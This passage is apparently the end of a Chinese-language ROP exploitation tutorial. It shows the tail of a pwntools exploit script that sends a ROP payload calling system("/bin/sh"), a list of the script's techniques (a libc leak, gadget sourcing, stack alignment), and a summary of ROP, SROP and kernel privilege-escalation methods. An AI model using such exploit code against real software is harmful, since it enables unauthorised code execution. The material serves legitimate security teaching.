    payload += p64(system_addr)      # system("/bin/sh")

    # ========== 第三步：发送exploit ==========
    p.sendlineafter(b'> ', payload)
    p.interactive()

if __name__ == '__main__':
    exploit()
```

**此exploit演示的关键技巧：**

1. **分步利用**：先泄露地址，再构造ROP链（应对ASLR）
2. **信息泄露**：利用格式化字符串泄露libc基址
3. **Gadget来源**：从libc中搜索而非目标程序（libc中Gadget更丰富）
4. **栈对齐**：在system调用前插入ret gadget解决SSE指令对齐问题
5. **模板化**：可作为类似漏洞的快速开发起点

---

### 小结

ROP技术是现代漏洞利用的基石。本节从基础原理出发，系统地介绍了ROP链构造、SROP变体、Stack Pivot技巧、内核ROP提权、ret2usr攻击、modprobe_path覆写等核心技术，并深入分析了各种防御机制的绕过方法。掌握这些技术需要大量的练习和调试经验——建议从简单的CTF题目开始，逐步挑战更复杂的场景。记住：攻防永远是一个动态博弈的过程，新的防御技术会催生新的绕过方法，这是安全领域持续进化的动力。
